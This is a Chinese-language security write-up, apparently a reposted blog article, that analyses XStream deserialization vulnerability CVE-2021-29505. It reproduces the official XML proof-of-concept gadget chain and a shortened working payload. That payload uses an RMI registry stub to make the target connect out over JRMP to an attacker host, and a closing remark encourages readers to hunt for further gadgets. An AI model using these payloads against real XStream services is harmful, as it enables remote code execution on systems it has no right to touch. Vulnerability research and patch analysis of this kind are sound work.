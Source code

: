 XStream CVE-2021-29505分析与简化

简介
--

最近有点其他事，很久没有更新了。正好看到XStream又发布最新的漏洞通告了，而且还有很多人复现，维度缺少分析文章。而且XStream官网公布的payload貌似不能正常使用，者激发了我的好奇心。恰好前段时间分析微某ao积累了一点点XStream分析经验。

漏洞分析
----

我们首先明确一点，XStream是一个序列化存储对象的库，类似于java原生的序列化。所以Xstream可以用在任何地方。很多公众号通过web接口去复现xstream的方法是及其不负责的，很让人容易产生错觉。

Xstream新增了很多功能，例如可以序列化未继承自`java.io.serializable`接口的类的对象。其他功能均与java原生的序列化功能一样，如果xstream在反序列化的时候发现还原继承自`java.io.serializable`的类，则同样会调用对象的`readObject`方法。

> Ysoserial所有的payload均可以转换为xstream格式

所以反序列化漏洞的特点在于类的readObject方法，分析的时候重点看readObject方法都做了什么操作。

目前xstream的修复方案是，没有修复方案，就新增几个黑名单。但是我们知道，xstream可以反序列化任意文件，所以gadget相对好挖

cve-2021-29505的payload如下所示，

```php
<java.util.PriorityQueue serialization='custom'>
  <unserializable-parents/>
  <java.util.PriorityQueue>
    <default>
      <size>2</size>
    </default>
    <int>3</int>
    <javax.naming.ldap.Rdn_-RdnEntry>
      <type>12345</type>
      <value class='com.sun.org.apache.xpath.internal.objects.XString'>
        <m__obj class='string'>com.sun.xml.internal.ws.api.message.Packet@2002fc1d Content: <none></m__obj>
      </value>
    </javax.naming.ldap.Rdn_-RdnEntry>
    <javax.naming.ldap.Rdn_-RdnEntry>
      <type>12345</type>
      <value class='com.sun.xml.internal.ws.api.message.Packet' serialization='custom'>
        <message class='com.sun.xml.internal.ws.message.saaj.SAAJMessage'>
          <parsedMessage>true</parsedMessage>
          <soapVersion>SOAP_11</soapVersion>
          <bodyParts/>
          <sm class='com.sun.xml.internal.messaging.saaj.soap.ver1_1.Message1_1Impl'>
            <attachmentsInitialized>false</attachmentsInitialized>
            <multiPart class='com.sun.xml.internal.messaging.saaj.soap.ver1_1.Message1_1Impl'>
              <soapPart/>
              <mm>
                <it class='com.sun.org.apache.xml.internal.security.keys.storage.implementations.KeyStoreResolver$KeyStoreIterator'>
                  <aliases class='com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl'>
                    <candidates class='com.sun.jndi.rmi.registry.BindingEnumeration'>
                      <names>
                        <string>aa</string>
                        <string>aa</string>
                      </names>
                      <ctx>
                        <environment/>
                        <registry class='sun.rmi.registry.RegistryImpl_Stub' serialization='custom'>
                          <java.rmi.server.RemoteObject>
                            <string>UnicastRef</string>
                            <string>ip2</string>
                            <int>1099</int>
                            <long>0</long>
                            <int>0</int>
                            <short>0</short>
                            <boolean>false</boolean>
                          </java.rmi.server.RemoteObject>
                        </registry>
                        <host>ip2</host>
                        <port>1099</port>
                      </ctx>
                    </candidates>
                  </aliases>
                </it>
              </mm>
            </multiPart>
          </sm>
        </message>
      </value>
    </javax.naming.ldap.Rdn_-RdnEntry>
  </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

当然，这段从官网上摘抄的poc是无法使用的，原因我们一会再讲，我们主要说一下xstream是怎么存储一个对象的。

如果序列化自一个对象，则xml的开始标签为对象的类的名称，如果该类存在readObject方法，则标签内注明serialization='custom'。在这里，xstream是不负责被序列化的类的一致性检测（suid）的。所以使用xstream在做某些序列化对象的操作的时候一定要注意。

与java原生反序列化存储格式相同，xml标签中，首先存储父类的字段信息，然后再存储子类的。顺序则按照类声明字段的顺序。每一层，都会注明子类的全限定名。在对象中，每个xml标签对应着对象的字段。

xstream为了不过多干涉用户的序列化工作，又为了安全性着想，只弄了一个简简单单的黑名单。但是xstream的官方建议是，自己写黑名单类！1.4.16的黑名单类如下，两个都是，也没必要搞清楚了，知道是过滤就行了。

![图片](https://shs3.b.qianxin.com/butian_public/fefbd1c0830c3f982ddd3c4d3677dd6ea.jpg)![图片](https://shs3.b.qianxin.com/butian_public/f4133841f1498801a2ffa5e51635b2689.jpg)

好了，现在基础知识我们知道了。下面开始分析上面的poc，

`java.util.PriorityQueue`类顾名思义，维持一个有序队列。为了保证反序列化后的队列是有序的，所以在无序地还原完所有元素后，调用`heapify`方法，将目前无序的队列变成有序的。在这里java为了给我们很大的自由度，规定只要继承自Compare接口的类都可以用来做排序算法。（思考一下是不是与c#的typeConfused gadget类似）

一般`java.util.PriorityQueue`类的反序列化出发点都会在`heapify`方法中，也就是调整元素的顺序。但是上面的poc显然并不是这样触发的，原因是poc中根本就没有还原compare字段。

按照我刚才的思路，找poc中类的readObject方法去分析，发现JRMP最终是由`sun.rmi.registry.RegistryImpl_Stub`去处理。下面我们看看相关代码

要还原RegistryImpl\_Stub对象，按照反序列化先后顺序，首先还原父类的字段信息，也就是`java.rmi.server.RemoteObject`，在poc中已经写明。然后调用`java.rmi.server.RemoteObject`的readObject方法

![图片](https://shs3.b.qianxin.com/butian_public/f773bcdcd5407eea6d41de3a8c4976774.jpg)

首先实例化UnicastRef对象，然后调用UnicastRef对象的readExternal方法，最终实际调用的代码如下![图片](https://shs3.b.qianxin.com/butian_public/f38660ef2351a432cccf6252647abd96a.jpg)

看到`DGCClient.registerRefs`，一切就简单明了。在先知上的 针对RMI服务的九重攻击 - 下中已经分析过了。部分截图如下

![图片](https://shs3.b.qianxin.com/butian_public/f1e4b1166f251eba8a517c5ae085dd4f7.jpg)

既然我们已经知道了触发流程，那么来简化一下poc吧，删掉不需要的地方，只保留`sun.rmi.registry.RegistryImpl_Stub`部分，注意别只保留`java.rmi.server.RemoteObject`部分，因为`java.rmi.server.RemoteObject`是抽象类，不可以被直接实例化的。反序列化也要遵守JVM的规定。至于为什么原始payload这么长，而实际paload这么短，我个人猜测洞主可能是通过某些自己写的工具自动化分析生成导致。

```php
<sun.rmi.registry.RegistryImpl_Stub serialization="custom"> 
  <java.rmi.server.RemoteObject> 
    <string>UnicastRef</string>  
    <string>127.0.0.1</string>  
    <int>8001</int>  
    <long>0</long>  
    <int>0</int>  
    <long>0</long>  
    <short>0</short>  
    <boolean>false</boolean> 
  </java.rmi.server.RemoteObject> 
</sun.rmi.registry.RegistryImpl_Stub>
```

这个漏洞是利用JRMP连接中，使用java反序列化协议传输数据造成的反序列化漏洞。也就是说，你的目标机中要有相关gadget

触发一下poc![图片](https://shs3.b.qianxin.com/butian_public/fa717b5cb9b4a54bf91f137e7f86d19b9.jpg)

修复分析
----

我们看一下xstream 1.4.17的黑名单变化![图片](https://shs3.b.qianxin.com/butian_public/f669295a614312002ef4e0de3c7461b96.jpg)

将与rmi有关的类名，全部加入黑名单中。但是治标不治本，weblogic包中也有很多关于rmi的部分哟，祝大家挖的愉快

**文章转载于”宽字节安全”公众号，已取得转载授权。**